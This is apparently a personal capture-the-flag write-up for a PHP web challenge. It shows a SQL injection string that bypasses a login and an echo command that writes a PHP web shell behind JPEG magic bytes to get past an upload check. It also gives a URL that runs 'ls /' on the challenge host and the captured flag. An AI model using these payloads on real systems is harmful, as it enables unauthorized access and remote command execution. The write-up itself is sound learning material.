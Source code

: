 ```yaml
---
ai_date: '2025-04-27 05:21:11'
ai_summary: Login bypass via SQL injection, payload executed in upload via magic bytes
  manipulation
ai_tags:
- sql
- xss
- magic.mime
created: 2024-08-03T22:15
tags:
- php
- mime
updated: 2024-08-03T22:25
---
```


## login

Login bypass with naïve SQL injection.

```
kumo' or '1'='1
```

## upload

Bypass hypothetical mime type check via magic bytes.

Referenced [magic.mime)](https://github.com/waviq/PHP/blob/master/Laravel-Orang1/public/filemanager/connectors/php/plugins/rsc/share/magic.mime)

```
# JPEG images
0	beshort		0xffd8		image/jpeg
```

```bash
echo -e '\xff\xd8<?php system($_GET['cmd']); ?>' > payload.jpg.php
```

## exploit

[188.166.252.88:1810/upload/bd50ad821429b24a932ec1fa5bfc65c1/payload.png.php?cmd=ls /](http://188.166.252.88:1810/upload/bd50ad821429b24a932ec1fa5bfc65c1/payload.png.php?cmd=ls%20/)
![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1722738101/2024/08/c8e388ba9b17413494cbaa7025c7db4c.png)

```flag
MSEC{s0me_T1me_I_w1sh_I4m_aC@t_noW0rk_noDeAdl1ne_JustMe0oow}
```

Not sure where is P1.